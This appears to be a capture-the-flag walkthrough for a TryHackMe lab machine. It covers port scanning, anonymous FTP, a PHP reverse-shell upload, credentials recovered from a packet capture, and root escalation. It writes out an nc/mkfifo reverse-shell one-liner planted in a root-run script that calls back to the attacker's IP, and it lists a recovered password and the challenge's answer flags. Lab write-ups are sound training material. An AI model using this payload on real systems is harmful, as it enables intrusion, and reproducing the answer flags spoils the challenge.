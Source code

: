 # Author:Panagiotis Fiskilis/Neuro

### Description: ###

<h3>Solution:</h3>

Machine ip=10.10.111.195

**Initial Enum:**

```bash
nmap -sV -sC 10.10.111.195
gobuster dir -u "http://10.10.111.195/" -w /opt/1337/directory-list-2.3-medium.txt
```

*Nmap results:*

Ports:21,22,80

![nmap](./Images/nmap.png)


We found that the server has Anonymous ftp enabled:

```bash
ftp 10.10.111.195
Username:anonymous
password:
mkdir FTP_Files
```

Downloaded the files from ftp and got some memes

*Gobuster results:*

![gobuster](./Images/)


We found a <code>files</code> directory where we can access the fpt files.

We can upload a php reverse shell and access it via the http instance

Now we use <code>netcat</code>

**Foothold:**

```bash
nc -nlvp 4444
```

![rev shell](./Images/rev_shell.png)

We will use python3 to get an interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
/bin/bash
```

We found the first flag on the root(/) directory

![flag1](./Images/flag1.png)

Inside the root(/) directory we find an <code>incidents</code> directory, inside it we find a <code>suspicious.pcapng</code>

![user](./Images/user.png)

We download it and analyze it with <code>wireshark</code> and get from the tcp streams the user credentials

```
User:lennie
password:c4ntg3t3n0ughsp1c3
```

We elevate our privileges and get user lennie

```bash
su lennie #pass=c4ntg3t3n0ughsp1c3
cat user.txt
```

![flag2](./Images/flag2.png)

We will upload <code>linpeas</code> to elevate our privileges

**NOTE:** I also used ssh to get a stable shell

I also downloaded <code>pspy64</code>

Found an interesting binary with <code>pspy</code>

![pspy](./Images/update.png)

Also linpeas found:

```
/etc/print.sh
```

I changed <code>print.sh</code> to this:

```bash
#!/bin/bash
echo "Done!"
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.68.187 5555 >/tmp/f
```

And activated the root shell with a nc listener and by executing the print.sh script

# Flags:

**Task 1:**

Q1: ```What is the secret spicy soup recipe?```

A: ```love```

Q2: ```What are the contents of user.txt?```

A: ```THM{03ce3d619b80ccbfb3b7fc81e46c0e79}```

Q3: ```What are the contents of root.txt?```

A: ```THM{f963aaa6a430f210222158ae15c3d76d}```

**Task 2:**

Q1: ```Congratulations!```

A: No answer needed
